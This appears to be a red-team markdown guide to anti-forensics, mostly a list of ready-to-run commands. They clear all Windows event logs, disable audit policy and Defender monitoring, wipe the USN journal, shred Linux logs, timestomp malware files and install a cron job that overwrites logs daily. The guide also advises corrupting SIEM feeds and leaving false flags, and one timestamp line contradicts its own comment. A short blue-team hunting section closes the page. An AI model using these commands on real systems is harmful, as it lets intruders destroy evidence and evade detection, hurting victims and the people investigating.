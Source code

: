 # Paw prints in the wind: Disappearing without a trace

*"The best operations never appear in the SIEM—only in the aftermath."*

## Log obliteration techniques

### Windows Systems

#### Event log manipulation

```powershell
# Nuclear Option (Clears all logs)
wevtutil el | Foreach-Object {wevtutil cl "$_"}

# Surgical Strikes (Security log only)
Clear-EventLog -LogName Security
```

#### Audit policy neutralization

```
:: Disable future logging
auditpol /clear /y
auditpol /set /category:"Object Access","Account Logon" /success:disable /failure:disable
```

#### USN Journal wiping (NTFS artifacts)

```powershell
fsutil usn deletejournal /D C:  # Destroys file change records
```

### Linux systems

```bash
# Multi-tool log sanitization
echo "" > /var/log/auth.log
journalctl --vacuum-time=1s  # Systemd logs
find /var/log -type f -exec shred -n 3 -u {} \;  # Physical destruction
```

## Timestomping & metadata warfare

### File Timestamp Forgery

```powershell
# Copy timestamps from legitimate system files (Windows)
(Get-Item legit.dll).LastWriteTime = (Get-Item malware.exe).LastWriteTime
```

```bash
# Linux timestamp laundering
touch -r /bin/bash ./malware.sh  # Inherits bash's timestamps
```

### $MFT manipulation (NTFS)

```
# Requires physical disk access
icacls C:\$MFT /grant Administrators:F  # Unlock MFT
python3 mft_editor.py --target C:\ --timedelta="-7d"  # Shift all timestamps
```

## Anti-forensic toolbox (2025 Edition)

| Tool	           | Purpose	                                | OpSec Risk                   |
|-----------------|-----------------------------------------|------------------------------|
| Slackercleaner	 | Multi-platform log wiping	Moderate      | (known IOCs)                 |
| Timestomp-NG	   | Nanosecond-precision timestamp forgery	 | Low                          |
| SysmonKiller	   | Disables Sysmon via driver unload	      | High (requires admin)        |
| MemPurge	       | Wipes RAM artifacts pre-reboot	         | Critical (must be last step) |

Chain tools with living-off-the-land binaries:

```powershell
# Disable Defender logging via LOLBin
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIOAVProtection $true
```

## Real-World OpSec failure (2024 case study)

Operation "Midnight Sun" Failure Points:

* Left Prefetch files intact (C:\Windows\Prefetch\RMM.exe)
* Failed to clear Windows Error Reporting crashes (%ProgramData%\Microsoft\Windows\WER)
* RDP bitmap cache revealed attacker desktop (%LocalAppData%\Microsoft\Terminal Server Client\Cache)

Corrected 2025 Procedure:

```powershell
# Full artifact sterilization
Remove-Item -Path "$env:LOCALAPPDATA\Microsoft\Terminal Server Client\Cache\*" -Force
Cleanmgr /sagerun:6174  # Disk Cleanup silent mode
```

## Red team best practices

Pre-Operation:  Map all logging systems (SIEM, EDR, LAPS) and identify immutable logs (e.g., Azure Sentinel)

During Operation, use network-based log injection to corrupt SIEM feeds

```python
# Fake 404 errors to mask malicious traffic
requests.get("https://victim.com/login", headers={"X-Forwarded-For": "192.168.1.1"})
```

Post-Operation: Deploy counter-forensic sleepers:

```bash
# Linux cronjob to overwrite logs daily
(crontab -l 2>/dev/null; echo "0 3 * * * shred -n 1 /var/log/*.log") | crontab -
````

## Blue team countermeasures (Test traces)

```bash
# Hunt for timestamp anomalies (Linux)
find / -type f -newermt "2025-01-01" ! -newermt "2025-01-02" -exec ls -l {} \;

# Windows Event Log gaps
Get-WinEvent -LogName Security | Group-Object -Property Id | Where Count -lt 10
```

## 2025

In 2025, forensic teams hunt at the nanosecond level. Your timestomping should be measured in Planck time.

## Required tools

* [TimeSketch (For Testing Your Traces)](https://github.com/google/timesketch)

## Operational checklist

- ✅ Test all cleanup scripts in VM snapshots before deployment
- ✅ Identify immutable cloud logs (AWS CloudTrail, Azure Activity) early
- ✅ Leave false [flags](flag.md) as distraction